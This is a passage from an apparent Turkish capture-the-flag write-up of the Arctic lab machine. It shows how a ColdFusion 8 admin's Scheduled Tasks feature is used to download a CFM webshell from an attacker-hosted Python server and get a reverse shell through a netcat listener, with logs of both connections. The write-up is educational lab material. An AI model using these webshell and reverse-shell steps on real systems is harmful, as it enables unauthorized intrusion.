 Giriş başarılı! Ancak burada dikkat edilmesi gereken bir nokta var.

**Burp** üzerinden trafiği izlediğimde, **login ekranında beklerken** formun yaklaşık **her 30 saniyede bir yenilendiğini** görüyorum. Bu yenileme ile birlikte **yeni bir salt** oluşturuluyor.

Eğer gönderdiğim **hash'in salt değeri**, sunucudaki güncel **salt** ile eşleşmezse, giriş reddediliyor. Bu yüzden **işlemi hızlı bir şekilde yapmam gerekiyor**.

Bunu **otomatikleştirmek** zor değil. **Python** veya **TamperMonkey script'i** ile **daha hızlı yanıt veren bir uygulamada** manuel işlem yapmak yerine süreci otomatize edebilirim.

#### Upload Reverse Shell

Arctic'e bir shell yazmak için [burada](https://nets.ec/Coldfusion_hacking#Writing_Shell_to_File) özetlenen adımları takip edeceğim. İlk olarak Server Settings altında Mappings'e gidin ve CFIDE için C:\ColdFusion8\wwwroot\CFIDE yolunu bulun:

![Pasted image 20250209195420.png](/img/user/resimler/Pasted%20image%2020250209195420.png)

Şimdi ana **admin sayfasına** geri dönüp, **Debugging & Logging** > **Scheduled Tasks** kısmına gideceğim:

![Pasted image 20250209195438.png](/img/user/resimler/Pasted%20image%2020250209195438.png)

**Schedule New Task**'a tıklayacağım ve aşağıdaki bilgileri vereceğim:

**Task Name:** İstediğim herhangi bir isim  
**URL:** CFM shell almak için kontrol ettiğim URL. Meğerse **Kali**'de **/usr/share/webshells/cfm** dizininde bir **CFM webshell** varmış. Bu dizinde bir **Python webserver** başlattım.  
**Publish:** "Save output to a file" kutusunu işaretleyeceğim.  
**File:** **Mappings** sekmesinden aldığım yolu, shell'in ismini ve `.cfm` uzantısını ekleyeceğim.

![Pasted image 20250209195521.png](/img/user/resimler/Pasted%20image%2020250209195521.png)

**Submit**'e tıkladığımda, görev görünüyor ve ardından **yeşil daireli** belgeye tıklayarak **görevi şimdi çalıştırabiliyorum**.

![Pasted image 20250209195541.png](/img/user/resimler/Pasted%20image%2020250209195541.png)

Web sunucumda bir bağlantı var:

```
root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [13/May/2020 08:46:34] "GET /cfexec.cfm HTTP/1.1" 200 -
```

Şimdi http://10.10.10.11:8500/CFIDE/ adresini yenilediğimde shell'i görüyorum:

![Pasted image 20250209195612.png](/img/user/resimler/Pasted%20image%2020250209195612.png)

#### Execute Shell

.jsp'ye tıklandığında nc listener'ımda bir shell dönüyor:

```
root@kali# rlwrap nc -nvlp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.11.
Ncat: Connection from 10.10.10.11:49774.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
arctic\tolis

```
